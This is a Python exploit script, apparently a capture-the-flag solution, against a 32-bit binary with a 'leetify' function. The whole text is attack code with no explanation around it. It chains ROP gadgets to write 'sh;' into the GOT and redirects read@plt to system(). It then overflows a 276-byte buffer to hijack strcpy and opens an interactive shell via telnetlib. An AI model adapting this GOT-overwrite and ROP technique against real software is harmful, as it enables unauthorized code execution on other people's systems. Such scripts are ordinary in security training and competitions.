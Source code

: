 ```python
    payload += p(0x08048aff)    # 0x08048aff
    ### third byte
    payload += p(0x08048d8c)
    payload += p(0xfffffff7)    # ebx, lower byte is important sprintf -> system (0xab + 0x56 = 0x101) 0x56 = V == not leetified
    payload += p(-1)            # esi
    payload += p(0x804b00e-0x5d)        # edi -> read@got
    payload += p(-1)            # ebp
    payload += p(0x08048aff)    # 0x08048aff
    
    ### write 'sh;' in got
    payload += p(0x08048d8c)
    payload += p(0xffffff39)    # ebx, 39 (0x73 would be leetified, 0x39 and 0x3a will not)
    payload += p(-1)            # esi
    payload += p(0x0804b1ff-0x5d)       # edi -> buf in got
    payload += p(-1)            # ebp
    payload += p(0x08048aff)    # 0x08048aff
    payload += p(0x08048d8c)
    payload += p(0xffffff3a)    # ebx, 3a 
    payload += p(-1)            # esi
    payload += p(0x0804b1ff-0x5d)       # edi -> buf in got
    payload += p(-1)            # ebp
    payload += p(0x08048aff)    # 0x08048aff
    ### write 'sh;' in got
    payload += p(0x08048d8c)
    payload += p(0xffffff34)    # ebx, 68 == h
    payload += p(-1)            # esi
    payload += p(0x0804b200-0x5d)       # edi -> buf in got
    payload += p(-1)            # ebp
    payload += p(0x08048aff)    # 0x08048aff
    payload += p(0x08048aff)    # 0x08048aff ; just execute the gadget twice so that 0x34 * 2 = 0x68 == 'h'
    ### write 'sh;' in got
    payload += p(0x08048d8c)
    payload += p(0xffffff3b)    # ebx, 3b == ;
    payload += p(-1)            # esi
    payload += p(0x0804b201-0x5d)       # edi -> buf in got
    payload += p(-1)            # ebp
    payload += p(0x08048aff)    # 0x08048aff
    ###
    payload += p(0x80484a0)     # read@plt -> points to system()
    payload += '1111'           # fake ret addr
    payload += p(0x0804b1ff)    # pointer to 'sh;'
    
    ropchain_length = len(payload)
    adjust_with_H = ((276-len(payload))/3)
    
    payload += 'H' * adjust_with_H  # add the correct amount of H's needed for the overflow; the pointer for strcpy() is at esp+276
    payload += 'A' * (276-ropchain_length-adjust_with_H*3) # how many A bytes do we need to make up the buffer to exactly 276 bytes?
    payload += p(0x804b01c) # point the strcpy to this address: stack_chk_fail@got >;]
    
    sendln(payload)
    
    readtil('choice: ')
    sendln('4')     # leetify
    
    print "[+] enjoy your shell!"
    
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
```